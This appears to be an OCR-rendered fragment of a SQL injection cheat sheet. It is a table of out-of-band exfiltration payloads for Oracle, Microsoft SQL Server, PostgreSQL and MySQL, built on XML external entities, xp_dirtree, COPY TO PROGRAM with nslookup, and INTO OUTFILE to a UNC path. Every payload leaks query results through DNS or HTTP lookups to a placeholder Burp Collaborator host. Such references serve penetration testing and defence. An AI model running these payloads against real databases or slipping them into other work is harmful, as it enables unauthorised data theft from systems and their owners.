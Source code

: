 | Oracle     | `                    SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"  encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM  "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual                ` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `                    declare @p varchar(1024);set @p=(SELECT  YOUR-QUERY-HERE);exec('master..xp_dirtree  "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')                ` |
| PostgreSQL | `                    create OR replace function f() returns void as $$                    declare c text;                    declare p text;                    begin                    SELECT into p (SELECT YOUR-QUERY-HERE);                    c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';                    execute c;                    END;                    $$ language plpgsql security definer;                    SELECT f();                ` |
| MySQL      | The following technique works on Windows only:                     `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |
